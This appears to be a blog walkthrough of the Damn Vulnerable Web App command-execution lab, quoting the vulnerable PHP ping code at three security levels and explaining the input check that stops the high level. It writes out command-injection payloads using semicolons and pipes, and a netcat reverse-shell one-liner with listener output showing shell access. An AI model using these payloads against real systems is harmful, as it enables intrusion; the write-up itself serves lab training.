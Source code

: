 ```yaml
---
layout: post
title: Dam Vulnerable Web App Code Execution
---
```


Exploiting the Dam Vulernable Web App

# DVWA Command Execution LOW


We enter an ip and then it pings it.
If we enter 10.0.2.4 it pings our ip we entered and shows us the result of the ping.


```
if( isset( $_POST[ 'submit' ] ) ) {
    $target = $_REQUEST[ 'ip' ];
    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
    } else { 
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';
    } 
}
```

Looking at the code we can see that it calls a php functioned called shell_exec which returns a string. 
It executes the ping command 3 times and returns the 3 ip pings back and displays it. 
There isn’t any filtering of special characters either.

This means that we can pass in 
10.0.2.4; pwd
This executes the ping command and then it executes the pwd command which prints the current working directory.

Now we can set up a reverse shell since we know we can execute commands.
First we need to find our ip on our machine.
If we do ifconfig and find the inet address which will be similar to the DVWA ip if you’re self hosting on a virtual machine. 

First we need to set up a listener so we can get the reverse shell. We set up netcat to listen on port 7667 (can be any port)
nc -vv -l -p 7667

Now we use the same exploit with the semicolon to execute the netcat command to get a reverse shell.
10.0.2.15; nc -e /bin/sh 10.0.2.15 7667

nc -vv -l -p 7667
listening on [any] 7667 ...
10.0.2.4: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.4] 44976
pwd
/var/www/dvwa/vulnerabilities/exec

We see that now we have access and can run any command.


# DVWA Command Execution MEDIUM

This time when we try to issue the ping command with a semicolon we find it doesn’t work.
```
if( isset( $_POST[ 'submit'] ) ) {
    $target = $_REQUEST[ 'ip' ];
    // Remove any of the charactars in the array (blacklist).
    $substitutions = array(
        '&&' => '',
        ';' => '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';        
    } else {     
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';        
    }
}
```

We can see that they’re filtering out the semicolon. 
Instead of using a semicolon we can use a pipe.

10.0.2.4 | pwd
﻿/var/www/dvwa/vulnerabilities/exec

Now we can do the reverse shell using the previous steps but instead of a semicolon we use a pipe |.


# DVWA Command Execution HIGH


In this one the pipe and semicolon are patched.
There isn’t any current way to get around this but we can understand how they protected against attacks.
```
if( isset( $_POST[ 'submit' ] ) ) {
    $target = $_REQUEST["ip"];   
    $target = stripslashes( $target );        
    // Split the IP into 4 octects
    $octet = explode(".", $target);    
    // Check IF each octet is an integer
    if ((is_numeric($octet[0])) && (is_numeric($octet[1])) && (is_numeric($octet[2])) 
          && (is_numeric($octet[3])) && (sizeof($octet) == 4)  ) {    
    // If all 4 octets are int's put the IP back together.
    $target = $octet[0].'.'.$octet[1].'.'.$octet[2].'.'.$octet[3];      
        // Determine OS and execute the ping command.
        if (stristr(php_uname('s'), 'Windows NT')) {     
            $cmd = shell_exec( 'ping  ' . $target );
            echo '<pre>'.$cmd.'</pre>';        
        } else {     
            $cmd = shell_exec( 'ping  -c 3 ' . $target );
            echo '<pre>'.$cmd.'</pre>';        
        }    
    }    
    else {
        echo '<pre>ERROR: You have entered an invalid IP</pre>';
    }        
} 
```
First it reads in the ip and strips it of slashes. Then it splits the ip into a group 4 separating it by the dot into an array. 
[10,0,2,4]
It check checks each item in the array to see if it’s numeric and that the array is only a length of 4.
It then rebuilds the ip, readds the dots and executes the ping command on it.

If we tried to run 10.0.2.4;pwd
It would be caught as [10,0,2,4;pwd] by the numeric check.

